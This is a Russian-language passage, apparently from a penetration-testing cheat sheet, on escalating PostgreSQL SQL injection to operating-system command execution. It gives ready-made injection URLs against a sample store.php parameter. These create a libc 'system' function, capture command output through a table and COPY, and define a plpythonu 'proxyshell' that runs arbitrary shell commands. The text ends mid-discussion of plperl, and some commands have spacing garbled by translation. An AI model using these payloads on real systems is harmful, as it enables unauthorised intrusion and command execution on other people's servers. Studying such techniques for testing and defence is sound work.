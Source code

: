 ##### Динамическая библиотека

До PostgreSQL 8.1 можно было добавлять пользовательскую функцию, связанную с `libc`:

`CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT`

Поскольку `system` возвращает `int`, как мы можем получать результаты из стандартного вывода `system`?

Вот маленькая хитрость:

- создать таблицу `stdout`: `CREATE TABLE stdout (id serial, system_out text)`
- выполнение команды оболочки, перенаправляющей ее `stdout`: `SELECT system ('uname -a> / tmp / test') `
- используйте операторы `COPY` для вывода предыдущей команды в таблицу `stdout`: `COPY stdout (system_out) FROM '/ tmp / test *' `
- извлечь вывод из `stdout`: `SELECT system_out FROM stdout`

###### Пример

```text
/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) --
/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C'
STRICT --
/store.php?id=1; SELECT system('uname -a > /tmp/test') --
/store.php?id=1; COPY stdout(system_out) FROM '/tmp/test' --
/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 OFFSET 1--
```

##### Plpython

PL / Python позволяет пользователям кодировать функции PostgreSQL в python. Это ненадежно, поэтому нет никакого способа ограничить то, что может сделать пользователь. Он не установлен по умолчанию и может быть включен в данную базу данных `CREATELANG`

- Проверьте, включен ли PL / Python в базе данных: `SELECT count(*) FROM pg_language WHERE lanname='plpythonu'`
- Если нет, попробуйте включить : `CREATE LANGUAGE plpythonu`
- Если что-то из вышеперечисленного удалось, создайте функцию оболочки прокси: `CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read() 'LANGUAGE plpythonu`
- Веселись с: `SELECT proxyshell(os command);`

###### Пример

- Создать функцию оболочки прокси: `/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS ‘import os;return os.popen(args[0]).read()’ LANGUAGE plpythonu;--`
- Запустите команду ОС: `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`

##### Plperl

Plperl позволяет нам кодировать функции PostgreSQL в perl. Обычно он устанавливается как доверенный язык, чтобы отключить выполнение операций во время выполнения, которые взаимодействуют с базовой операционной системой, например `open`. Таким образом, невозможно получить доступ на уровне ОС. Чтобы успешно внедрить функцию прокси-элла, нам нужно установить ненадежную версию от пользователя `postgres`, чтобы избежать так называемой фильтрации маски приложений доверенных / ненадежных операций.
